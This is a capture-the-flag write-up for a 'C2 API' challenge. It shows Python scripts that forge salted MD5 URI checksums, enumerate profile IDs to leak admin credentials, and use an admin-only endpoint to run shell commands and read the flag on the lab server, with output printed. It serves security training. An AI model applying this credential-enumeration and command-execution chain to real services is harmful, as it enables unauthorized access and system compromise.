

# C2 API - Misc 500

>pnill: Did you ever run the old c2 bot?
>
>kyle: yes and it told me not to run untrusted code, whatever mom
>
>pnill: it was supposed to execute shutdown -t 0 after saying that..

## Challenge Description
So we managed to capture traffic off the attackers network once again, and this time we think we found their actual C2 API... previously everything we'd looked at didn't seem to really have anything to do with their bot setup, can you do anything with it we've attached the capture we managed to grab as well.

Good luck.

http://172.18.10.105:31305

Challenge also included `challenge1.pcap`

## Initial Observations
Looking through the pcap file we can see quite a few TCP streams, over 2000 in fact. It looks like the pcap shows something interacting with an API. The first TCP stream includes a user name and password `user:mysup3rP@ssw0rd!!`. We can also see that each request requires a uri_checksum parameter.  
Using Wireshark (Statistics -> HTTP -> Requests) we can print a summary of all of the endpoints hit in the pcap. 

  /api/update_bots
  /api/start_ddos
  /api/send_botcmd
  /api/salt
  /api/request_uri
  /api/profile_update
  /api/profile/4
  /api/profile/3
  /api/profile/2
  /api/phpinfo
  /api/download_c2_app
  /api/comment_responses
  /api/comment
  /api/c2_log
  /api/bot_sendkeylogs
  /api/authenticate

By filtering the `/api/comment` and `/api/comment_response` endpoints we can find some interesting information. 

>Hey Admin, I tried to download the C2 app and execute against the command to my bots but it didn't work... it told me I needed to be admin what gives?

>User: You're executing the wrong command, that one is only for admins to execute commands against the C2 SERVER! PLEASE DONT USE THAT COMMAND!, Not that you could cause you're just a user... the command you want to execute commands against your bots is actually send_botcmd thanks. I guess we mistakenly left the C2 CMD command in the app!

>Admins!, I had to update h4x0rb0t so please download the new one from \/api\/download_c2_app make sure you're authenticated and have the correct key set in the key parameter some user was trying to execute commands against C2 CMD and there's still that bug in the API where they could steal admin credentials so we probably want to remove that C2 CMD in the next iteration of the API! I told them they can't do anything though because they're not admin... I hope they don't figure it out because then they'll be able to compromise our C2! Lets get this updated fast!

>Admins!, I made a new secure method for accessing URIs since the last one was broken by someone modifying our URLs after capturing traffic from the C2 Desktop App, now all URLs are hashed using a salt the new hash generation method is a md5 of the uri salted by the generated salt make sure you update your scripts with this!!

This gives us some helpful clues. Before we authenticate we should get a salt from `/api/salt` When we authenticate (using the creds for user from the pcap) we will get a salt that we use to hash the urls. We can also pull an old version of the botnet, but the comments suggest that it was updated so we should try and pull the new one.  

## Interacting with the Server

Python has the requests library which will handle the cookies for us. We can quickly write up a script to log in as user and pull user's key. 

```python
import requests
import json
import hashlib

host = "http://172.18.10.105:31305"
session = requests.Session()

def doPost(api,salt,data={}):
  data['uri_checksum'] = hashlib.md5((salt+api).encode('ascii')).hexdigest()
  return session.post(host+api, data=json.dumps(data))

salt_res=doPost("/api/salt","")
salt=json.loads(salt_res.text)["response"]["salt"]
print(F"Salt: {salt}")
print("Login:")
print(doPost("/api/authenticate",salt,{"username":"user","password":"mysup3rP@ssw0rd!!"}).text)
key = json.loads(doPost("/api/profile/2",salt).text)["response"]["key"]
print(F"Key: {key}")

```

We can use this key to request a new copy of the botnet at the `/api/download_c2_app` endpoint. Once we do we have to crack the zip password with John the Ripper or Hashcat. The application inside is an ARM executable made with the Xojo Framework. Because it's a proprietary framework there aren't many resources available to help reverse it, but we can start by greping the strings for hidden api endpoints. 

```
strings h4x0rBot2.0 | grep api
OpenGL.glGetMapiv(target As Integer, query As Integer, v As MemoryBlock)
http://soapinterop.org/xsd
#http://172.18.10.105:31305/api/salt
/api/authenticate
+http://172.18.10.105:31305/api/authenticate
/api/c2_cmd
/api/profile_update
-http://172.18.10.105:31305/api/profile_update
/api/send_botcmd
*http://172.18.10.105:31305/api/send_botcmd
/api/update_bots
*http://172.18.10.105:31305/api/update_bots
/api/request_uri
*http://172.18.10.105:31305/api/request_uri
%http://172.18.10.105:31305/api/c2_cmd
/api/start_ddos
)http://172.18.10.105:31305/api/start_ddos
/api/bot_sendkeylogs
.http://172.18.10.105:31305/api/bot_sendkeylogs
```

`/api/c2_cmd` wasn't in the original pcap, let's try to hit it. 

`{"response":"you need admin to do that!"}`

Now we need an admin's creds. Grepping the botnet doesn't lead to any results, before we try reversing let's try hitting the `/api/profile/#` endpoints to see if there are more users we can enumerate.

```python
import requests
import json
import hashlib

host = "http://172.18.10.105:31305"
session = requests.Session()

def doPost(api,salt,data={}):
  data['uri_checksum'] = hashlib.md5((salt+api).encode('ascii')).hexdigest()
  return session.post(host+api, data=json.dumps(data))

salt_res=doPost("/api/salt","")
salt=json.loads(salt_res.text)["response"]["salt"]
print(F"Salt: {salt}")
print("Login:")
print(doPost("/api/authenticate",salt,{"username":"user","password":"mysup3rP@ssw0rd!!"}).text)
key = json.loads(doPost("/api/profile/2",salt).text)["response"]["key"]
print(F"Key: {key}")
print(doPost("/api/c2_cmd",salt).text)
for i in range(10):
  print(doPost(F"/api/profile/{i}",salt).text)
  ```

```
python3.8 test.py
Salt: 9^25wPc1S4XwK=e+Z_8'*=YtN"SAN|4|Y9+}AuC}3Li*JfVo^YjSk(W
Login:
{"response":{"status":"ok"}}
Key: c03713f2e5d39653322d3259202ed45d
{"response":"you need admin to do that!"}
{"response":null}
{"response":{"username":"admin","password":"mysup3rs3cr3tP@ssw0rd!!!!","key":"415290769594460e2e485922904f345d"}}
{"response":{"username":"user","password":"mysup3rP@ssw0rd!!","key":"c03713f2e5d39653322d3259202ed45d"}}
{"response":null}
{"response":null}
{"response":null}
{"response":null}
{"response":null}
{"response":null}
{"response":null}
```

Admin creds have been leaked. Now let's login as admin and try running c2_cmd. We'll have to also pass the admin's key into the c2_cmd api. Nothing is happening so there must be one more missing piece. At this point lets look around the area in the binary where the c2_cmd endpoint was found. It's possible that nearby strings will tell us the syntax. This time instead of grep we'll open the binary in a hex editor.



Nearby we can see the strings `ls -la` and `cmd`, so let's try adding `'cmd':'ls -la'` to our request. 

```python
import requests
import json
import hashlib

host = "http://172.18.10.105:31305"
session = requests.Session()

def doPost(api,salt,data={}):
  data['uri_checksum'] = hashlib.md5((salt+api).encode('ascii')).hexdigest()
  return session.post(host+api, data=json.dumps(data))

salt_res=doPost("/api/salt","")
print(session.cookies.get_dict())
print(F"Salt Res: {salt_res.text}")
salt=json.loads(salt_res.text)["response"]["salt"]
print(F"Salt: {salt}")
print("Login:")
print(doPost("/api/authenticate",salt,{"username":"admin","password":"mysup3rs3cr3tP@ssw0rd!!!!"}).text)
key = json.loads(doPost("/api/profile/1",salt).text)["response"]["key"]
print(F"Key: {key}")
print(doPost("/api/c2_cmd",salt,{"key":key,"cmd":"ls -la"}).text)
```

```
python3.8 test.py
{'PHPSESSID': 'urp72qgm66nv8o8r6suc2d5jh0'}
Salt Res: {"response":{"salt":"=MZS&^Dae]6WY'MoC|M7>mQlG\\i84J-Ff>92d)\"uTimp.iedk&sMyBo"}}
Salt: =MZS&^Dae]6WY'MoC|M7>mQlG\i84J-Ff>92d)"uTimp.iedk&sMyBo
Login:
{"response":{"status":"ok"}}
Key: 415290769594460e2e485922904f345d
total 26916
drwxr-xr-x 2 nobody nogroup     4096 Sep  4 01:44 .
drwxr-xr-x 4 nobody nogroup     4096 Sep  4 01:45 ..
-rwxrwxr-x 1 nobody nogroup 15255811 Sep  4 01:42 h4x0rBot2.zip
-rwxrwxr-x 1 nobody nogroup 12289640 Sep  3 17:46 h4x0rb0t.zip
-rwxrwxr-x 1 nobody nogroup     3726 Sep  4 01:44 index.php
```

Aha, we have access to a shell on the API server. Let's run `ls -la /`

```
total 68
drwxr-xr-x   19 nobody nogroup 4096 Sep  4 01:45 .
drwxr-xr-x   19 nobody nogroup 4096 Sep  4 01:45 ..
lrwxrwxrwx    1 nobody nogroup    7 Jun  9 07:27 bin -> usr/bin
drwxr-xr-x    2 nobody nogroup 4096 Apr 15  2020 boot
drwxr-xr-x    5 nobody nogroup  360 Sep  4 01:46 dev
drwxr-xr-x   49 nobody nogroup 4096 Jun 21 18:05 etc
-rw-r--r--    1 nobody nogroup   47 Sep  4 01:43 flag
drwxr-xr-x    2 nobody nogroup 4096 Apr 15  2020 home
lrwxrwxrwx    1 nobody nogroup    7 Jun  9 07:27 lib -> usr/lib
lrwxrwxrwx    1 nobody nogroup    9 Jun  9 07:27 lib32 -> usr/lib32
lrwxrwxrwx    1 nobody nogroup    9 Jun  9 07:27 lib64 -> usr/lib64
lrwxrwxrwx    1 nobody nogroup   10 Jun  9 07:27 libx32 -> usr/libx32
drwxr-xr-x    2 nobody nogroup 4096 Jun  9 07:27 media
drwxr-xr-x    2 nobody nogroup 4096 Jun  9 07:27 mnt
drwxr-xr-x    2 nobody nogroup 4096 Jun  9 07:27 opt
dr-xr-xr-x 1103 nobody nogroup    0 Sep 22 07:27 proc
drwx------    2 nobody nogroup 4096 Jun  9 07:31 root
drwxr-xr-x    8 nobody nogroup 4096 Jun 21 18:04 run
lrwxrwxrwx    1 nobody nogroup    8 Jun  9 07:27 sbin -> usr/sbin
drwxr-xr-x    2 nobody nogroup 4096 Jun  9 07:27 srv
drwxr-xr-x    2 nobody nogroup 4096 Apr 15  2020 sys
drwxrwxrwt    2 user   user      40 Sep 22 07:27 tmp
drwxr-xr-x   14 nobody nogroup 4096 Jun 21 18:04 usr
drwxr-xr-x   11 nobody nogroup 4096 Jun  9 07:31 var
drwxr-xr-x    4 nobody nogroup 4096 Sep  4 01:45 web-apps
drwxr-xr-x    2 nobody nogroup 4096 Sep  4 01:45 web-servers
```

There's the flag, now just run `cat /flag` to output the flag.

`RTXFLAG{h4d_fun_tr0lling_y0u_0n_th1s_c0ngr4tz}`
